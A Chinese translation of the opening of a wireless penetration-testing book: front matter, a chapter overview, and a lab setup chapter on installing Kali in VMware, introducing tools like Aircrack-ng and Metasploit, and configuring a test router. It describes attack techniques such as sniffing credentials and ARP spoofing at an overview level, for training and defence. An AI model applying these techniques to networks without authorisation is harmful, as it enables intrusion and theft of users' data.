## 无线渗透测试：快速上手指南：运行无线网络漏洞评估、Wi-Fi 渗透测试、Android 与 iOS 应用安全、... WPA 与 WPA2 协议


## 献给

*我挚爱的父母：*

***Hashem El Fiky***

***&***

***Mona El Fiky***

## 作者简介

**Dr. Ahmed Hashem El Fiky** 拥有网络安全硕士学位。目前，他正在攻读工商管理博士学位。他在逆向工程、恶意软件分析、Web 渗透测试、移动渗透测试、网络渗透测试、无线渗透测试、系统渗透测试和机器学习等各个领域拥有 8 年以上的经验。作者在网络安全领域发表了 8 篇论文。目前，他担任高级网络安全工程师。他还拥有 `ECSA v10`、`CCNA`、`NSE4`、`ISO 27001` 等专业认证。

## 审阅者简介

**Amar Gupta** 是一位资深工程师，在网络安全领域拥有 8 年以上的经验。在他的职业生涯中，他曾与多家跨国公司合作，积累了丰富的安全领域经验。他在防火墙、代理、负载均衡器和其他网络安全组件方面拥有丰富经验，并曾为财富 500 强公司提供一流的安全解决方案。

## 致谢

有几个人我要感谢，感谢他们在撰写本书期间给予我的持续支持。首先，我要感谢我的父母、妻子和女儿，感谢她们持续鼓励我写书——没有她们的支持，我永远无法完成这本书。

我感谢那些在无线渗透测试学习过程中以及无线渗透测试相关工具方面给予我支持的课程和公司。

感谢所有默默给予的支持。我衷心感谢 Amar Gupta 先生对本书进行的善意技术审查。

我的感激也献给 BPB Publications 的团队，感谢他们给予的大力支持，为我完成本书第一部分提供了充足的时间，并允许我分多部分出版本书，因为图像处理作为一个广阔且非常活跃的研究领域，不可能在一本书中深入探讨不同类别的问题。

## 前言

由于无需网线即可从全球各地轻松访问互联网，无线技术越来越普及。然而，如果您不了解其风险，更重要的是，如果不采取安全措施，无线网络可能并不安全。为了您自身的安全，保护您的无线网络至关重要。过去几年来，身份盗窃和个人信息窃取事件日益增多。

不安全的无线网络不再安全，因为尽管它们更易于设置和连接，但您的个人信息被盗的可能性更大。另一个人即使几乎没有经验也能轻松拦截它。用户监视您在线活动的另一种方式包括无保护的无线网络。这包括对话、电子邮件，甚至您的网上银行账户。虽然本书提供了保护无线网络的方法，但主要集中在攻击者如何访问受保护的无线网络。此外，它还演示了攻击者一旦获得无线网络访问权限所拥有的权力。

本书分为 **12 章**。它们将涵盖无线网络基础、无线渗透测试的基础和进阶内容。详情如下。

**第 1 章** 将介绍搭建您自己的无线实验室的分步指南。还将介绍在硬盘上安装 Kali 以及虚拟机（`VMWare`）实验的基础知识。本章将提供关于无线渗透测试工具的知识，例如 `Wireshark` 和 `Aircrack-ng`。将讨论如何使用 Web 界面配置您的接入点。

**第 2 章** 将介绍对多种不同无线攻击策略的完整理解，例如访问控制攻击、机密性攻击、凭证攻击和认证攻击。

**第 3 章** 将讨论如何扫描无线网络以获取信息，并展示两种不同形式的无线扫描及其工作原理。然后本章将展示如何使用 `Ettercap` 通过 ARP 欺骗嗅探无线网络，以及如何使用 `dsniff` 收集登录详细信息。最后，将介绍多种防御这些攻击的方法。

**第 4 章** 将展示如何制定攻击计划。接下来，将介绍多种攻击方法。然后，本章将详细讨论 `WEP`、`WPA` 和 `WPA2` 加密。最后，将介绍多种降低无线攻击风险的方法。

**第 5 章** 将阐述在对网络进行渗透测试时，查找存活主机数量的重要性。接下来，将介绍使用 `Kali Linux` 识别网络上的主机。最后，本章将介绍确定网络规模。

**第 6 章** 将介绍规划评估的能力、评估的关键组成部分以及评估的分步流程。将介绍安装 `Nessus`、注册、下载插件并运行 `Nessus` 的能力。本章还将讨论创建新策略和扫描、识别漏洞、阅读漏洞详情，并针对漏洞提供解决方案的能力。

**第 7 章** 将介绍如何捕获未加密流量，并了解蜜罐攻击和方法、`Karmetasploit`、`Jasager` 以及威胁防范。

**第 8 章** 将介绍使用无线进行高级攻击的基础，包括建立无线 MITM 攻击环境，并利用其窃听受害者流量。然后，本章将讨论如何利用相同环境通过 DNS 投毒攻击劫持受害者的应用层（具体为 Web 流量），以及如何使用 `Metasploit`。最后，将讨论这些威胁的防范。

**第 9 章** 将介绍如何使用一级和二级跳板调查隐藏网络及缓解方法。


# 第 10 章

将涵盖详细了解 Android 架构、如何搭建 Android 渗透测试环境以及了解流行的 Android 渗透测试工具。最后，将讨论如何保护您的 Android 应用程序。

# 第 11 章

将涵盖了解 iOS 应用程序基础、iOS 应用程序沙箱结构以及流行的 iOS 渗透测试工具的能力。最后，本章将介绍 iOS 应用程序的测试方法论。

# 第 12 章

将涵盖了解如何撰写专业的渗透测试报告的能力。

# 代码包和彩色图片

请访问以下链接下载本书的**代码包**和**彩色图片**：

# [`rebrand.ly/qn0i995`](https://rebrand.ly/qn0i995)

本书的代码包也托管在 GitHub 上，地址为 **[`github.com/bpbpublications/Wireless-Penetration-Testing-Up-and-Running`](https://github.com/bpbpublications/Wireless-Penetration-Testing-Up-and-Running)**。如果代码有更新，将在现有的 GitHub 仓库中更新。

我们在 **[`github.com/bpbpublications`](https://github.com/bpbpublications)** 上拥有来自丰富图书和视频目录的代码包。去看看吧！

# 勘误表

我们在 BPB Publications 为我们的工作感到无比自豪，并遵循最佳实践以确保内容的准确性，为订阅者提供沉浸式的阅读体验。我们的读者是我们的镜子，我们利用他们的反馈来反思并改进出版过程中可能发生的人为错误。为了让我们保持质量并帮助我们联系到可能因不可预见的错误而遇到困难的读者，请写信给我们：

**errata@bpbonline.com**

BPB Publications 的全体成员高度赞赏您的支持、建议和反馈。

您知道吗？BPB 提供每本已出版书籍的电子书版本，提供 PDF 和 ePub 文件。您可以在 **[www.bpbonline.com](http://www.bpbonline.com)** 升级到电子书版本，作为纸质书客户，您有权享受电子书副本的折扣。如需更多详情，请联系我们：**business@bpbonline.com**。

在 **[www.bpbonline.com](http://www.bpbonline.com)**，您还可以阅读免费技术文章合集、注册各类免费通讯，并获得 BPB 图书和电子书的独家折扣和优惠。

# 盗版

如果您在互联网上以任何形式发现我们作品的非法副本，如果您能向我们提供位置地址或网站名称，我们将不胜感激。请通过 **business@bpbonline.com** 联系我们，并附上相关材料的链接。

# 如果您有兴趣成为作者

如果您在某个主题上有专业知识，并有兴趣撰写或为书籍做贡献，请访问 [**www.bpbonline.com**](http://www.bpbonline.com/)。我们已与数千名像您一样的开发人员和技术专业人士合作，帮助他们与全球技术社区分享见解。您可以提交一般申请、申请我们正在招募作者的特定热门主题，或提交您自己的想法。

# 评论

请留下评论。阅读并使用本书后，为什么不在购买网站上留下评论呢？潜在读者可以看到并利用您的公正意见做出购买决定。我们 BPB 可以了解您对我们产品的看法，我们的作者也能看到您对他们书籍的反馈。谢谢！

有关 BPB 的更多信息，请访问 [**www.bpbonline.com**](http://www.bpbonline.com/)。

# 第 1 章：无线渗透测试实验室搭建

## 简介

本书提供保护您所需的有用信息。我们无法保证您 100% 的安全。它提供了管理员需要了解的关于可能随时发生的潜在安全威胁的信息。正如您所知，处理数据存在风险，因为任何人都可以访问未经授权访问的数据。

本章将重点介绍高级无线渗透测试的优势以及使用它所需的技能，以便您理解后续章节。本章还有一些必须理解的关键因素，例如了解 `Kali Linux`、无线网卡知识，以及必须使用的一些重要工具。

**问题**：为什么要对无线网络进行渗透测试？

**答案**：

*   为了避免因病毒、蠕虫、特洛伊木马和非法活动导致的网络数据泄露，这些事件会给组织造成数百万美元的损失，无线渗透测试帮助我们在风险发生前规避它们。
*   为了评估安全漏洞的重要性，我们可以对对组织最重要的威胁进行排序或识别，并在攻击发生前予以预防。
*   为了制定法规和政策以保护员工。

无线渗透测试最大的好处是安全意识，因为了解攻击者如何渗透这些网络以及他们为了获得访问权限能做些什么非常重要。

**问题：** 攻击者在您的系统或网络上寻找什么？数据有价值吗？

始终以*假设*的形式问自己。例如，为什么攻击者要访问他的网上银行账户？他能买东西吗？如果攻击者获得了您工作场所的安全许可会怎样？他能损害您的业务吗？这些只是几个例子。

**请记住**本书旨在专注于高级无线黑客新闻。它将专注于理解无线网络各种攻击背后的隐藏原理。您将学习以下内容：

*   详细了解无线网络安全。
*   如何发现无线网络中的弱点以及如何发起不同类型的 Wi-Fi 攻击。它还将解释在设置无线网络时应遵循的最佳安全实践。

**问题：** 谁应该读这本书？

**答案：** 谁会对这本书感兴趣？肯定不是所有人，但我希望它适合大多数网络管理员或信息安全专业人员。本书几乎在每一章都提供了防黑客方法。我认为预防覆盖非常重要，因为您不仅会知道如何保护自己，还会了解现实世界中存在的威胁。

**所有大型或小型无线网络服务于相同的用途，即通过无线频率（无需线缆）访问网络，无论设备是计算机还是手机。在当今社会，我们看到更多用户遭到黑客攻击，尤其是在 Wi-Fi 网络中。Wi-Fi 网络可能存在一些问题，例如可能存在开放的无线网络、薄弱的加密，或者可能存在次要的身份验证问题。**

## 结构

在本章中，我们将讨论以下主题：

*   硬件要求
*   软件要求
*   下载并安装 `Kali Linux`
*   无线渗透测试工具
*   配置接入点设置
*   安装无线网卡
*   连接到接入点

#### 目标


## 设置无线实验室

本章提供了设置您自己的无线实验室的分步指导。您还将学习在硬盘上安装 Kali 的基础知识，以及尝试使用虚拟机（VMWare），并了解一些无线渗透测试工具，例如 `Wireshark` 和 `Aircrack-ng`。您还将学习如何使用 Web 界面配置您的接入点。最后，您将学习如何配置和使用您的无线网卡，并且必须首先学习并执行许多命令，以验证无线客户端与接入点连接的状态。

### 硬件要求

要设置无线实验室，我们需要以下硬件：

*   **两台带有内置 Wi-Fi 网卡的笔记本电脑：** 在我们的实验室中，我们将使用一台笔记本电脑作为受害者，另一台作为渗透测试员的笔记本电脑。虽然实际上任何笔记本电脑都可以，但建议使用至少拥有 4 GB 内存的笔记本电脑，因为我们的实验可能包含大量占用内存的软件。
*   **一个无线网卡：** 根据您笔记本电脑的无线网卡，我们可能需要一个支持数据包注入和嗅探的 USB Wi-Fi 网卡，Kali 支持此类网卡。Alfa Networks 的 Alfa AWUS036H 网卡似乎是最佳选择。请参阅 *图 1.1*：

    

    **图 1.1：** Alfa AWUS036H 无线网卡

    如 *图 1.2* 所示，TP-Link N150 无线高增益 USB 网卡 (TLWN722N)、Panda 300Mbps 无线 N USB 网卡和 Edimax EW7711UAN 都是体积更小、价格略低的替代品。

    

    **图 1.2：** TLWN722N 无线网卡
*   **一个接入点：** 任何支持 WEP/WPA/WPA2 加密技术的接入点均可。为了本书中的示例方便，我们将使用 NETGEAR D1500 无线路由器。
*   **一个有效的互联网连接：** 这将有助于研究、软件下载和我们的一些实验。

### 软件要求

要设置无线实验室，我们需要以下软件：

*   **虚拟机平台，如 VMware 或 VirtualBox：** 由于其广泛使用，虚拟化软件是在虚拟化平台上设置测试机器的理想选择。虚拟化软件以低廉的价格提供了一套强大的功能，消除了双启动计算机的麻烦。克隆虚拟机（允许您制作同一系统的多个副本）是大多数虚拟化软件产品提供的另一个实用功能。在实际渗透测试中，您可能需要克隆并复制您的测试计算机，以便安装更多黑客工具并更新 Kali Linux 配置设置，同时保留早期镜像的副本，以便在虚拟化环境中用作基础镜像。这很容易实现。
*   **Kali Linux：** Kali 的官方网站是 <https://www.kali.org/>，您可以在该网站下载该程序。由于它是开源的，您应该能够直接从网站获取该程序。
*   **Windows 7/Windows 8/Windows 8.1/Windows 10/Windows 11：** 在其中一台笔记本电脑上，您需要安装 Windows 7、Windows 8、Windows 8.1、Windows 10 或 Windows 11。在本书的其余部分中，这台笔记本电脑将作为受害者机器。

> **注意：** 值得注意的是，虽然我们是在基于 Windows 的操作系统上进行测试，但我们所学的概念可以应用于任何支持 Wi-Fi 的设备，包括智能手机和平板电脑，正如我们将在本书后面讨论的那样（*第 11 章：iOS 渗透测试* 和 *第 12 章：报告*）。

### 下载并安装 Kali Linux

Kali Linux（前身为 BackTrack Linux）是一个开源的、基于 Debian 的 Linux 发行版，旨在进行高级渗透测试和安全审计。Kali Linux 包含数百种工具，针对各种信息安全任务，如渗透测试、安全研究、计算机取证和逆向工程。Kali Linux 是一个多平台解决方案，可供信息安全专业人员和爱好者免费获取。

Kali Linux 于 2013 年 3 月 13 日发布，作为 BackTrack Linux 的彻底自顶向下重建，完全遵循 Debian 开发标准。如果您的机器是 64 位，如 *图 1.3* 所示，让我们开始下载和安装 Kali Linux；我们将使用 64 位 Kali Linux 机器；否则，如果您的机器是 32 位，您需要下载 Kali Linux 32 位版，并且可以像在虚拟机平台上安装 64 位版一样安装 Kali Linux 32 位版。

Kali Linux 下载步骤（我们推荐标记为 Installer 的镜像）如 *图 1.3* 所示：



**图 1.3：** Kali Linux 下载

### 在 VMware 中安装 Kali Linux（客户机 VM）分步指南

要在 VMware 中安装 Kali Linux（客户机 VM），请遵循以下步骤：

1.  启动 VMware Workstation 后，选择 `Create a New Virtual Machine`，如 *图 1.4* 所示：

    

    **图 1.4：** 创建新虚拟机

2.  当有选项时，为虚拟机配置选择 `Custom (advanced)`，因为这将为我们提供对 VM 创建的更大控制权。请参阅 *图 1.5*：

    

    **图 1.5：** 虚拟机配置

3.  下一屏是 `Virtual Machine Hardware Compatibility`，我们使用 `Workstation 8.x`，如 *图 1.6* 所示：

    

    **图 1.6：** 虚拟机硬件兼容性

4.  如果这是您第一次使用向导，可能会出现以下提示，解释添加 `VMware tools` 如何改善您的 VM 体验。在阅读并理解该页面后，您可能想在按下关闭之前勾选 `Don't show this page again` 复选框，如 *图 1.7* 所示：

    

    **图 1.7：** 安装 VMware tools

5.  通过选择 `Edit virtual machine settings`，我们现在可以在 VM 启动前编辑其设置，如 *图 1.8* 所示：

    

    **图 1.8：** 编辑虚拟机设置

6.  我们不需要打印机；因此，我们将其移除。要移除打印机，请转到 `Printer` 部分并点击 `Remove`，如 *图 1.9* 所示：

    

    **图 1.9：** 移除打印机设备

7.  如果您想更改 USB 设备的行为，可以更改 `USB` 设置。我们关闭了 `Automatically connect new USB devices`（此选项可能因您的 VMware 版本而不可用），并开启了 `Show all USB input devices`，如 *图 1.10* 所示：

    

    **图 1.10：** USB 设置

8.  在 `Display` 部分还有一点要提。确保 `Accelerated 3D graphics` 处于关闭状态，因为据记录它会导致问题，如 *图 1.11* 所示：

    

    **图 1.11：** 显示设置

9.  接下来，我们将转到 `Options` 菜单并向下滚动到 `Power`。我们选择允许 `Report battery information to guests`，因为这是一个对使用笔记本电脑的 Kali 用户有用的功能，如 *图 1.12* 所示：

    

    **图 1.12：** 电源选项

10. 我们在 `Shared folders` 下选择 `Always enable`，目前不透露任何路径，因为某些用户可能不希望这样做，如 *图 1.13* 所示：

    

    **图 1.13：** 共享文件夹设置


**图 1.13：** 文件夹共享设置

11. 最后，我们在 `VMware Tool` 选项中启用 `Synchronize guest time with host`，如 *图 1.14* 所示：



**图 1.14：** VMware Tools 功能

12. 之后，我们保存设置，启动虚拟机，然后继续使用 `Graphical Install` 选项安装 Kali Linux，如 *图 1.15* 所示：



**图 1.15：** Kali Linux 图形化安装

#### 无线渗透测试工具

以下章节介绍各种实用且广泛使用的安全工具。

### Wireshark

Wireshark 是一款免费且开源的数据包分析器。它可用于网络故障排除、分析、软件开发和通信协议开发。Wireshark 也可用作教学工具，演示使用 SSL 或其他加密方法保护敏感信息（如用户名和密码）免遭外部攻击者捕获的重要性。Kali Linux 预装了 Wireshark。

**Wireshark 如何帮助你？Wireshark 可以嗅探无线数据包、跟踪 TCP 流、发现不需要的无线接入点，以获取电子邮件、密码和其他敏感信息。**

*图 1.16* 展示了 Wireshark 界面：



**图 1.16：** Wireshark

### Scapy

Scapy 是一款功能强大的数据包处理应用程序。它能够伪造或解码来自多种协议的数据包。它可以发送数据包、捕获数据包、比较请求与响应。扫描、路由跟踪、探测、攻击和网络发现都是它能轻松完成的任务。据估计，它可以轻松替代 Nmap、arpspoof、tcpdump、tethereal、p0f 等工具 85% 的功能。它还能处理其他程序无法完成的各种任务，例如发送错误帧、注入自定义 802.11 帧、组合 VLAN 跳跃、ARP 缓存投毒、WEP VOIP 解码等。 *图 1.17* 展示了 Scapy 在 Kali Linux 中的运行情况：



**图 1.17：** Scapy

## Nmap

Nmap 是一款免费且开源的网络发现和安全审计工具。它对于网络资产清点、制定服务升级计划以及监控主机或服务的运行时间等活动非常有用，深受众多系统和网络管理员的青睐。Nmap 可用于检测 Linux 操作系统版本和二进制包。它还能检测网络端口是开放还是关闭。Kali Linux 预装了 Nmap。

Nmap 是一款网络和子网映射工具。它还能告诉你正在运行什么操作系统和软件版本。这有助于判断网络是否存在缺陷或潜在的安全问题。 *图 1.18* 展示了 Nmap 在 Kali Linux 中的运行情况：



**图 1.18：** Nmap

### Aircrack-ng

Aircrack-ng 是一款基于 C 语言的软件，集成了安全审计套件。Aircrack-ng 包含 Airodump-ng、aircrack-ng、aireplay-ng、Nmap、dnsiff、arpspoof、urlsnarf 等实用程序。尽管 Aircrack-ng 可能被恶意使用，但它也可用于找回遗忘的 Wi-Fi 密码。对于安全专业人员来说，Aircrack-ng 是一款极佳的工具。更不用说它完全免费使用和分发！Kali Linux 预装了 Aircrack-ng，如 *图 1.19* 所示：



**图 1.19：** Aircrack-ng

## Metasploit

Metasploit 是一款基于 Ruby 的软件，有助于降低数据泄露的风险。它可以使用与外部攻击者相同的方法，发现你的网络和系统中的弱点。Metasploit 能在各种系统和软件中发现数千个漏洞。Kali Linux 已预装 Metasploit，如 *图 1.20* 所示。

**Metasploit 在无线渗透测试中扮演什么角色？Metasploit 包含一个漏洞数据库。如果无线路由器存在可通过绕过管理员登录来利用的漏洞，Metasploit 几乎肯定会有相应的 Ruby 脚本。它也适用于操作系统和硬件防火墙，因此不仅限于无线路由器。可以使用 Metasploit 的 search 命令来查找 CVE。**



**图 1.20：** Metasploit

### 配置接入点设置

我们现在要设置接入点。如前所述，本书中的所有实验都将使用 NETGEAR D1500 无线路由器进行。不过，你也可以使用任何其他接入点。核心操作和使用原则保持不变。

我们将配置接入点使用开放式认证，SSID 为 Wireless Lab。请遵循以下步骤：

1. 打开接入点电源后，使用网线将笔记本电脑连接到接入点的一个以太网端口。

2. 在浏览器中输入接入点配置终端的 IP 地址。NETGEAR 的默认 IP 地址为 `192.168.1.1`。你的接入点 IP 地址可以在接入点的设置指南中找到。如果你没有接入点的说明书，可以使用 Web 浏览器访问 **[`routerlogin.net`](http://routerlogin.net)**。接入点的 IP 地址通常用作网关 IP 地址。连接成功后，你应该会看到如下所示的配置门户。请参阅 *图 1.21*：



**图 1.21：** 无线路由器登录

